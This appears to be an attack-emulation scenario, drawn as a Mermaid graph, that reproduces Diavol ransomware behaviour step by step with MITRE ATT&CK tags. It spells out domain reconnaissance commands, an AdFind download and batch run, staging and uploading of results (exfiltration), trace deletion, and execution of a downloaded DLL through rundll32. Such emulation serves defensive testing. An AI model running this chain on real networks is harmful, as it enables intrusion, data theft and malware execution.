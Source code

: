 ```mermaid
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
Step10 --> Step11
Step11 --> Step12
Step12 --> Step13
Step13 --> Step14
```


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step2["<b> module: run </b> <br><h4> parameters: </h4> <i> ipconfig /all </i> <br><a href='https://attack.mitre.org/techniques/T1016'>att&ck-technique:T1016</a><br>
"]
Step3["<b> module: run </b> <br><h4> parameters: </h4> <i> net user USER /domain </i> <br><a href='https://attack.mitre.org/techniques/T1087.002'>att&ck-technique:T1087.002</a><br>
"]
Step4["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c mkdir %USERPROFILE%\Desktop\Diavol </i> <br>"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c mkdir %USERPROFILE%\Desktop\Diavol\adfind </i> <br>"]
Step6["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd.exe /c mkdir %USERPROFILE%\Desktop\Diavol\adfind\results </i> <br>"]
Step7["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step8["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/Diavol/adf.bat --dest %USERPROFILE%\Desktop\Diavol\adfind\adf.bat </i> <br>"]
Step9["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src https://www.joeware.net/downloads/files/AdFind.zip --dest %USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip </i> <br>"]
Step10["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c powershell -Command Expand-Archive %USERPROFILE%\Desktop\Diavol\adfind\AdFind.zip -DestinationPath %USERPROFILE%\Desktop\Diavol\adfind\ </i> <br><a href='https://attack.mitre.org/techniques/T1059.001'>att&ck-technique:T1059.001</a><br>
"]
Step11["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c start %USERPROFILE%\Desktop\Diavol\adfind\adf.bat </i> <br><a href='https://attack.mitre.org/techniques/T1069.002'>att&ck-technique:T1069.002</a><br>
"]
Step12[""]
Step13["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell Compress-Archive %USERPROFILE%\Desktop\Diavol\adfind\results\ %USERPROFILE%\Desktop\Diavol\adfind\adf.zip </i> <br><a href='https://attack.mitre.org/techniques/T1074.001'>att&ck-technique:T1074.001</a><br>
"]
Step14["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load uploader </i> <br>"]
Step15["<b> module: uploader </b> <br><h4> parameters: </h4> <i> --remotepath %USERPROFILE%\Desktop\Diavol\adfind\adf.zip </i> <br><a href='https://attack.mitre.org/techniques/T1041'>att&ck-technique:T1041</a><br>
"]
Step16["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c rmdir /Q /S %USERPROFILE%\Desktop\Diavol\adfind </i> <br>"]
Step17["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/Diavol/uvvfvnnswte.dll --dest %USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll </i> <br>"]
Step18["<b> module: run </b> <br><h4> parameters: </h4> <i> rundll32.exe %USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll,EnterDll </i> <br><a href='https://attack.mitre.org/techniques/T1218.011'>att&ck-technique:T1218.011</a><br>
"]
Step19["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
```